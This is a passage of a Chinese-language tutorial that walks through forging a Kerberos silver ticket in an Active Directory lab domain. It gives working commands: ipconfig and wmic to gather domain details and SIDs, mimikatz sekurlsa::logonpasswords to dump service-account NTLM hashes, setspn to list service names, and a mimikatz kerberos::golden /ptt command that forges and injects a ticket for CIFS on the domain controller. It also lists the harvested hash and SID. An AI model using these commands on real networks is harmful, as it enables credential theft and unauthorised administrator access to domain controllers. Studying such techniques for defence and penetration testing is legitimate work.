 ```batch
# 获取域的FQDN
ipconfig /all
```

![image.png](https://img.ghostliner.top/yhDCUJ.png)

##### SID

```batch
# 获取系统所有用户的SID
wmic useraccount get name,sid
```

![image.png](https://img.ghostliner.top/jkR8Uw.png)

##### 服务账户的 NTLM 哈希

内置服务账户、由操作系统预定义，权限固定，适用于运行系统服务。
常见内置服务账户：
- LocalSystem：本地系统账户，最高权限
- Network Service：网络服务账户，较低权限
- Local Service：本地服务账户，最低权限
- 用于域中的计算机对象，通常以`$`结尾。例如：`DC$`（域控制器计算机账户）、`Workstation$`（工作站计算机账户）

```batch
# 查看服务账户的哈希
mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

![image.png](https://img.ghostliner.top/xWXeO8.png)

##### 目标服务的主体名称

```batch
# 域管理员可以通过 setspn 查看和管理 SPN
setspn -L DC$
```

![image.png](https://img.ghostliner.top/XZmX6Q.png)

#### 2.3.2. 制作白银票据

##### 已收集信息

```text
work.com # 域的FQDN 
Administrator # 管理员账号 
S-1-5-21-3644623682-4019055222-2476599189 # 域的SID
a3457f8fbad178153d6d2f177e3dec64 #服务账户的 NTLM 哈希 
cifs #服务的主体名称
```

##### 伪造票据

```batch
# 清空当前Kerberos 票据
klist purge
# 制作白银票据
mimikatz "kerberos::golden /user:administrator /domain:work.com /sid:S-1-5-21-3644623682-4019055222-2476599189 /target:dc.work.com /rc4:a3457f8fbad178153d6d2f177e3dec64 /service:cifs /ptt" exit
```

##### 验证

成功访问域控服务

![image.png](https://img.ghostliner.top/HstfZU.png)
